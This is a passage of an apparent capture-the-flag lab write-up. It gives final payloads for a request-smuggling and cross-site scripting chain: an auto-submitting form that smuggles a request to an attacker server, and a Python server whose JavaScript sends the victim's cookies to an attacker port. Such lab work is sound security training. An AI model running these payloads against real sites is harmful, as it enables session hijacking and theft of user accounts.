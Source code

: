 - to accomplish both step 1 and step 2, we need a python code listening to different port, with one port giving status code 200 and the malcious javascript, and another port accepting and display the cookie retrieved.
- these are the final payloads:
```javascript
<form id="btn" action="http://challenge.thm/"
    method="POST"
    enctype="text/plain">
<textarea name="GET http://10.11.139.184:5555 HTTP/1.1
AAA: A">placeholder1</textarea>
<button type="submit">placeholder2</button>
</form>
<script> btn.submit() </script>
```
- the python code to setup servers to offer malicious script
```python
#!/usr/bin/python3
from http.server import BaseHTTPRequestHandler, HTTPServer

class MaliciousHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        # Serve malicious JavaScript on ANY request
        self.send_response(200)
        self.send_header('Content-type', 'text/html')
        self.end_headers()
        self.wfile.write(b"fetch('http://10.11.139.184:4444/?cookies=' + document.cookie)")
        print("Sent malicious JavaScript to victim")

print("Malicious server running on port 5555 to provide malicious JavaScript.")
print("\nStart python3 -m server.http 4444 to receive cookies stolen cookies.")
HTTPServer(('', 5555), MaliciousHandler).serve_forever()
```
- print screen for entry of the first javascript payload
- <img width="422" height="554" alt="image" src="https://github.com/user-attachments/assets/cb0aac12-bc67-4321-adfc-1d61a0726b97" />
- it's working
  <img width="1522" height="882" alt="image" src="https://github.com/user-attachments/assets/cc8fa357-4bb8-4619-844a-7507366e5633" />



